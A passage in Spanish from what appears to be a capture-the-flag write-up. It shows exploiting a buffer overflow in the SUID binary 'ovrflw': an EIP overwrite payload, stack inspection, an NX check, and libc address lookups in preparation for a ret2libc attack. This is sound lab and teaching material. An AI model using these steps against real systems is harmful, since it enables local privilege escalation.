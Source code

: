 Aqui ya vemos que el EIP vale `0x42424242` que son 4 B en hexadecimal

#### Buscando la direccion despues del registro EIP {-}

```bash
> r $(python -c 'print "A"*112 + "B"*4 + "C"*200)
> x/80wx $esp
```

```{r, echo = FALSE, fig.cap="ESP Entries", out.width="90%"}
    knitr::include_graphics("images/October-esp_entries.png")
```

La idea seria de appuntar el EIP a la direccion `0xbf8d5310` y cambiar los C por codigo malicioso pero si miramos
las proteccionnes del programa con 

```bash
> checksec
```

Vemos que el NX esta Enabled. El NX tambien llamado DEP (Data Execution Prevention) es una proteccion que deshabilita la 
ejecucion de codigo en la pila, esto significa que si le ponemos codigo malicioso en el EIP, el flujo del programa no lo 
va a ejecutar.

Como no se puede ejecutar nada directamente en la pila, tenemos que mirar las libraries compartidas del programa para ver
si podemos llamar a otra cosa que la propria pila.

#### Buscando librerias compartidas {-}

```bash
ldd /usr/local/bin/ovrflw
    linux-gate.so
    libc.so.6
    /lib/ld-linux.so.2
```

Aqui la libreria `libc.so` esta interesante porque nos permitiria ejecutar commandos a nivel de systema. Y si recordamos bien,
el binario ovrflw tiene permisos SUID.

```bash
ldd /usr/local/bin/ovrflw
ldd /usr/local/bin/ovrflw | grep libc
ldd /usr/local/bin/ovrflw | grep libc | awk 'NF{print $NF}'
ldd /usr/local/bin/ovrflw | grep libc | awk 'NF{print $NF}' | tr -d '()'
```

Aqui vemos la direccion de la libreria `0xb758a000`

Miramos si la direccion cambia a cada ejecucion

```bash
for i in $(seq 10); do ldd /usr/local/bin/ovrflw | grep libc | awk 'NF{print $NF}' | tr -d '()'; done
```
